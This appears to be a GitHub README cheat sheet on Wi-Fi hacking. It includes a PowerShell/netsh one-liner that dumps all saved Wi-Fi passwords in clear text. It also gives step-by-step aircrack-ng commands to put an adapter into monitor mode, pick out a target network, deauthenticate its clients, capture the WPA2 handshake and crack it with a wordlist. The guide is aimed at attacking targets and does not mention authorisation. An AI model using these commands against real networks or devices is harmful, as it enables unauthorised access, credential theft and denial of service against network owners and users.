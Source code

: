 # Wifi-hacking

## Table of content

- [hardware](#hardware)
- [tools](#tools)
  - [aircrack ng](#aircrack-ng)
  - [airmon ng](#airmon-ng)
  - [airodump ng](#airodump-ng)
  - [wifite](#wifite)
- [tips and tricks and one liners etc](#tips-and-tricks-and-one-liners-etc)
- [cracking manualy with aircrack tools](#cracking-manualy-with-aircrack-tools)
  - [kill processes](#kill-processes)
  - [interface to monitor mode](#interface-to-monitor-mode)
  - [discover wifi](#discover-wifi)
  - [view just the target](#view-just-the-target)
  - [capture WPA2 handshake plus deauthenticate](#capture-WPA2-handshake-plus-deauthenticate)
  - [cracking the handshake](#cracking-the-handshake)

  
  

  
### hardware
  
my recommended use is Alfa AWUS036ACH-C
  
example site:
```
https://cdon.se/hemelektronik/alfa-awus036ach-c-p85144443?gclid=Cj0KCQjwof6WBhD4ARIsAOi65ajClanJarTELWA8x2m-jddNlS2pyJNLfaKC6foh1Ex3yA0PkQHw674aAoA8EALw_wcB
```
  
### tools 
  
## aircrack ng
  
## airmon ng
  
## airodump-ng
  
## wifite

## tips and tricks and one liners etc

find all wifis in a cmd (You will see a list of WLAN profiles stored on the PC.)
```
NETSH WLAN SHOW PROFILE 
```

see the wifi passwords in clear text. look at the "key content" part
```
NETSH WLAN SHOW PROFILE <wifi> KEY=CLEAR 
```
powershell/cmd one-liner command to dump all wifi (that is available) passwords at once
```
(netsh wlan show profiles) | Select-String “\:(.+)$” | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name=”$name” key=clear)} | Select-String “Key Content\W+\:(.+)$” | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Format-Table -AutoSize
```

## cracking manualy with aircrack tools
### kill processes
killing the processes that may interfere
```
sudo airmon-ng check kill
```

### interface to monitor mode
to put the interface/adapter to monitor mode type:
```
sudo airmon-ng start <interface>
```

### discover wifi
to search and find wifi in the area type:
```
sudo airodump-ng <interface>
```
then you should find the wifi you want to target and write up
*   BSSID (it is the mac address)
*   Channel (CH)

### view just the target
to see just the target type:
```
sudo airodump-ng <interface> --bssid <BSSID>
```
then you can see info about the target
plsu you can see clients connected to the network


### capture WPA2 handshake plus deauthenticate
now you will capture the WPA2 handshake. type:
```
sudo airodump-ng -w <name of the file you want to name for the capture> -c <channel> --bssid <BSSID> <interface>
```
press enter
then at the same time after entered the capture and letting it go we will go on and open a second window/terminal we will deauthenticate clients from the network by typing:
```
sudo aireplay-ng --deauth 0 -a <BSSID> <interface>
```
(ops the deauth part can sometimes be used to Ddos a wifi network)

then after a while the handshake should be captured

### cracking the handshake
we should have a file which ends with ".pcap" 
we have to put the adapter which is on monitor mode back to manage mode by typing: 
```
sudo airmon-ng stop <interface>
``` 
now its time to crack the .pcap file
```
aircrack-ng <the pcap file> -w <wordlist to crack the password>
```




